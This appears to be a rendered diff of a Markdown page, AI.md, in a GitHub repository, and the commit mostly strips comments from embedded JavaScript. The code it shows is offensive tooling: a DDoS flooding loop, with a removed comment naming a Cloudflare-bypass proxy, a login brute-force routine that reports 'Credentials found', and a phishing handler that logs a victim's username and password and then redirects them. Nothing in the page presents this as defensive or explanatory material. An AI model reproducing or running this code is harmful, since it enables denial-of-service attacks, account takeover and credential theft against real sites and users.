

Before and after one commit to Genera1Developer/Noodles, a Markdown page: AI.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/AI.md
+++ b/AI.md
@@ -266,7 +290,6 @@
   async function ddosAttackThread(url, signal) {
    while (isDDoSRunning && !signal.aborted) {
     try {
-     // const proxyUrl = 'https://fuckcloudflare.tk/?' + encodeURIComponent(url);
 
 
      // Use fetch with AbortSignal
@@ -714,7 +739,6 @@
       formData.append('password', password);
 
 
-      // Use 'cors' mode to avoid the No 'Access-Control-Allow-Origin' header issue
       const response = await fetch(url, {
        method: 'POST',
        body: formData,
@@ -722,13 +746,10 @@
       });
 
 
-      // Check if the response status is OK
       if (response.ok) {
-       // Parse the response body as text
        const responseText = await response.text();
 
 
-       // Check if the response body contains specific success indicators
        if (responseText.includes('Login successful') || responseText.includes('Welcome')) {
         console.log("Success! Credentials found:", username, password);
         statusDiv.innerText = `Success! Credentials found: ${username} : ${password}`;
@@ -799,10 +820,8 @@
   var username = document.getElementById('username').value;
   var password = document.getElementById('password').value;
 
-  // Log the credentials (insecure, but for demonstration)
   console.log('Username:', username, 'Password:', password);
 
-  // Redirect to the specified URL
   window.location.href = '${redirectUrl}';
   });
   };
```
Also changed, not shown: other parts of AI.md (+32 -6 lines).
